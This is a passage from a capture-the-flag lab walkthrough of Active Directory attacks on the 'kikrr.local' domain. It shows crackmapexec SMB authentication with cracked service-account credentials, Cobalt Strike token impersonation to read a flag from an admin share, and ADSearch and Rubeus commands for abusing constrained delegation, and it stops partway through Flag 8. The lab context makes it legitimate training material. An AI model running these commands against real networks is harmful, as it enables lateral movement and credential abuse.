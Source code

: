 ### Accessing Resources and Obtaining Flag:

1. **Use Cracked Service Account Credentials:**
   ```
   crackmapexec smb 10.10.3.0/24 -u svc-cifs -p 'Password!'
   ```
   This command uses the cracked credentials for the `svc-cifs` service account to authenticate via SMB to hosts within the `kikrr.local` domain. We found with this command that these creds are valid for the system `print-srv` on `kikrr.local` domain.

2. **Navigate to Desktop and Access Flag:**
   ```
   make_token KIKRR\svc-cifs Password!
   cd \\print-srv.kikrr.local\c$\Users\Administrator\Desktop
   powerpick type flag.txt
   ```
   These commands navigate to the Administrator's desktop on the `print-srv.kikrr.local` host and display the content of the `flag.txt` file.

### Flag:
   ```
   flag{Out-Bound_Trust_with_RC4_WoW!}
   ```
   This is the extracted flag indicating successful lateral movement and access.

---
## Flag 8

The Flag 8 involves the exploitation of a `Constrained Delegation` for  `File Server` in the domain `kikrr.local`
### Obtaining Foothold on `print-srv` with Cobalt Strike:

1. **Create Token for `svc-cifs` Service Account:**
   ```
   make_token KIKRR\svc-cifs Password!
   ```
   This command creates a token for the `svc-cifs` service account using the provided password. Now after this do all of the regular stuff e.g uploading a payload and running that and linking or connecting with that according to the type of the payload. Now from this step run all of the commands on a print-srv

2. **Search for Constrained Delegation:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/ADSearch/ADSearch/bin/Release/ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
   ```
   This command searches for computer objects that have the attribute `msds-allowedtodelegateto` set, indicating the presence of constrained delegation. We found out with this command is the machine account of`print-srv` can perform `constrained delegation` on a several services on a `file server`.

3. **List the TGTs for the Accounts:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe triage
   ```
   This command performs a triage to identify potential targets for constrained delegation.
